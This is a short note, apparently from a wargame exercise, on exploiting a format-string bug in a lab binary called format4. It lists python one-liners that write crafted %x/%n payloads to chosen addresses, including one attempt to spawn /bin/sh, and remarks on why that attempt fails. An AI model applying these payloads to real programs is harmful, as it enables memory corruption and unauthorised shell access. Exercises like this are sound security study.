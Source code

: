 dump way: python -c "print 'AAAAAAAA' + '\x24\x97\x04\x08'+'%x '*4+'%134513800x '+'%n'" | ./format4 <br>
pop shell attempts:
- **#1** python -c "print 'AAAAAAAA' + '\x24\x97\x04\x08'+'BBBB'+'\x26\x97\x04\x08'+'\xc0\xf4\xff\xbf'+'\xc2\xf4\xff\xbf'+'%x '*4+'%26196x '+'%n'+'%20825x '+'%n'+'%109524x '+'%9\$n' +'%21564x' +'%10\$n'" => would fail cuz before calling exit it will move **1** to ESP, **overwriting** the pointer to **/bin/sh**
